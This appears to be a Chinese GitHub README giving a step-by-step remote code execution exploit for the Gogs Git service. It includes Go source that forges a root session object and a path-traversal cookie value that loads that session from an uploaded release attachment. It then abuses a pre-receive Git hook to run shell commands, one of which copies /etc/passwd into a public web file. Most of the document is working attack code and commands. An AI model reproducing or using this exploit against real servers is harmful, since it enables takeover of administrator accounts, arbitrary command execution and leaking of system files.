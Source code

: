 # Gogs_RCE


## 0x01 前台注册普通账号

![](./test.jpg)

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```
![](./data.png)
会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

![](./new_release.png)

附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号
![](./cookie.png)

修改以后

![](./cookie-admin.png)

root账号

![](./root.png)

## 0x05 仓库设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。


## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：
例如 
```
静态文件根目录    /app/gogs
```
![](./path.png)

shell 脚本内容：

`cat /etc/passwd > /app/gogs/public/js/1.js`

![](./git_bash.png)

网站回显路径：

`https://127.0.0.1:3000/js/1.js`

![](./passwd.png)
